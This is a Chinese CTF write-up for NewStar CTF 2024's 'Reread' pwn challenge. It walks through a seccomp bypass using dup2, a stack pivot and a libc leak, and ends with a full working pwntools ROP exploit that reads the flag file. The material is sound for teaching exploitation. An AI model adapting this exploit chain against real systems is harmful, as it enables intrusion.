 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# Reread

先查看沙箱

![查看沙箱](/assets/images/wp/2024/week4/reread_1.png)

可以看到除了只允许 open、read、write、dup2 四个系统调用外，还增添了一个额外条件，那就是执行 `read` 系统调用时，第一个参数必须是 `0`

查看主要函数 `vuln`，直接一个栈溢出贴脸，但是溢出的长度很短，算上 `rbp` 的话其实只能覆盖范围地址这一个地方

```c
int vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("[+] Ok let's try your best!!馃構");
  read(0, buf, 0x50uLL);
  return puts("done!");
}
```

那该怎么办呢

我们来仔细看一下汇编，通过 gdb 动态调试可以知道，其实是 `lea rsi,[rbp]`

然在前面的栈溢出中我们可以控制 rbp，如果把返回地址覆盖成 `4013AC`，那我们就可以向任意地址写入 `0x50` 字节

同时第二次读入的时候，`rbp` 又是可控的，程序也会执行 `leave ret`，如此，便构成了一次巧妙的栈迁移

```asm
.text:00000000004013AC                 lea     rax, [rbp+buf]
.text:00000000004013B0                 mov     edx, 50h ; 'P'  ; nbytes
.text:00000000004013B5                 mov     rsi, rax        ; buf
.text:00000000004013B8                 mov     edi, 0          ; fd
.text:00000000004013BD                 call    _read
.text:00000000004013C2                 lea     rdi, aDone      ; "done!"
.text:00000000004013C9                 call    _puts
.text:00000000004013CE                 nop
.text:00000000004013CF                 leave
.text:00000000004013D0                 retn
```

至于上文 `sandbox` 中设置的 `syscall_read` 的一参必须为 `0` 的问题，可以使用 dup2 系统调用

具体用法为 `dup2(fd,new_fd)`，可以看作 `new_fd` 是 `fd` 的一个拷贝，同时会 `close(fd)`

所以，EXP 如下

```python
from pwn import *
import sys
from ctypes import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux','splitw','-h']

libc = ELF('./libc.so.6')
elf = ELF('./pwn')
flag = 1
if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./pwn")

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

reread = 0x4013ac
pop_rdi = 0x0000000000401473
lea_ret = 0x00000000004012ec

payload = b'a'*0x40 + p64(elf.bss(0x800)) + p64(reread)
# gdb.attach(p)
sd(payload)

payload = p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x401394) + b'./flag\x00\x00'
payload = payload.ljust(0x40,b'\x00')
payload += p64(elf.bss(0x7b8)) + p64(lea_ret)
sd(payload)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - libc.sym['puts']
leak("libc", libc.address)

pop_rsi = 0x000000000002601f + libc.address
pop_rdx_r12 = 0x0000000000119431 + libc.address
pop_rax = 0x0000000000036174 + libc.address
syscall = 0x00000000000630a9 + libc.address

payload = b'a'*0x40 + p64(elf.bss(0xa00)) + p64(reread)
sd(payload)

payload = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(elf.bss(0x9f8)) + p64(pop_rdx_r12) + p64(0x200)*2 + p64(elf.plt['read'])
payload += p64(elf.bss(0x9b8)) + p64(lea_ret)
sd(payload)

orw = flat([
    pop_rdi,elf.bss(0x9f8),
    pop_rsi,0,
    pop_rdx_r12,0,0,
    pop_rax,2,
    syscall,
    pop_rdi,3,
    pop_rsi,0,
    pop_rax,33,
    syscall,
    pop_rdi,0,
    pop_rsi,elf.bss(0x100),
    pop_rdx_r12,0x40,0x40,
    pop_rax,0,
    syscall,
    pop_rdi,1,
    pop_rax,1,
    syscall,
])
sd(b'./flag\x00\x00' + orw.ljust(0x1f8,b'\x00'))
p.interactive()
```
